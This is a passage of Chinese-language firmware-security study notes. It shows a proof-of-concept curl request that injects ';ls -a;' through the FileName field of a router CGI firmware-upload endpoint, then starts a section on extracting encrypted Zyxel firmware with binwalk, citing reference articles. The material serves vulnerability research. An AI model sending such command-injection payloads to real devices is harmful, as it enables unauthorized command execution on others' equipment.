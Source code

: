 ```shell
curl http://127.0.0.1/cgi-bin/cstecgi.cgi -b "SESSION_ID=<YOUR_SESSION_ID>" -X POST -d '{"topicurl":"UploadFirmwareFile","FileName":";ls -a;"}'
```

![](../.gitbook/assets/20.png)

### Zyxel 设备：固件提取分析

参考资料：

* [https://paper.seebug.org/3137/](https://paper.seebug.org/3137/)
* [https://security.humanativaspa.it/zyxel-firmware-extraction-and-password-analysis/](https://security.humanativaspa.it/zyxel-firmware-extraction-and-password-analysis/)

固件获取：[https://support.zyxel.eu/hc/en-us/articles/360013941859-Security-Products-Firmware-Overview-and-History-Downloads-for-FLEX-ATP-USG-VPN-ZYWALL](https://support.zyxel.eu/hc/en-us/articles/360013941859-Security-Products-Firmware-Overview-and-History-Downloads-for-FLEX-ATP-USG-VPN-ZYWALL)

本次主要学习在固件被加密的情况下，获取固件。

尝试直接用 binwalk 解包，解出来一堆 .zip && .7z，解包失败。（binwalk 记得加 -r 参数，自动 delete carved file，节省空间，避免 archlinux 爆炸）
